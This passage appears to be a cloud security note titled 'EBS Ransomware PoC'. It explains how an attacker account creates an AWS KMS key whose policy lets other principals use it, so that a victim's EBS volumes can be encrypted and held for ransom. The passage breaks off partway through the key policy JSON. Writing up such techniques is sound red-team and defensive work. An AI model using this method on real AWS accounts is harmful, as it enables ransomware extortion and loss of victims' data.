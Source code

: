 ### EBS Ransomware PoC

A proof of concept similar to the Ransomware demonstration demonstrated in the S3 post-exploitation notes. KMS should be renamed to RMS for Ransomware Management Service with how easy it is to use to encrypt various AWS services using it.

First from an 'attacker' AWS account, create a customer managed key in KMS. For this example we'll just have AWS manage the key data for me, but in a realistic scenario a malicious actor would retain the key data outside of AWS' control. Change the key policy to allow for any AWS account Principal to use the key. For this key policy, the account's name was 'AttackSim' and the policy rule allowing all access is called 'Outside Encryption'

```
{
    "Version": "2012-10-17",
    "Id": "key-consolepolicy-3",
    "Statement": [
        {
            "Sid": "Enable IAM User Permissions",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::[Your AWS Account Id]:root"
            },
            "Action": "kms:*",
            "Resource": "*"
        },
        {
            "Sid": "Allow access for Key Administrators",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
            },
            "Action": [
                "kms:Create*",
                "kms:Describe*",
                "kms:Enable*",
                "kms:List*",
                "kms:Put*",
                "kms:Update*",
                "kms:Revoke*",
                "kms:Disable*",
                "kms:Get*",
                "kms:Delete*",
                "kms:TagResource",
                "kms:UntagResource",
                "kms:ScheduleKeyDeletion",
                "kms:CancelKeyDeletion"
            ],
            "Resource": "*"
        },
        {
            "Sid": "Allow use of the key",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
            },
            "Action": [
                "kms:Encrypt",
                "kms:Decrypt",
                "kms:ReEncrypt*",
                "kms:GenerateDataKey*",
                "kms:DescribeKey"
            ],
            "Resource": "*"
```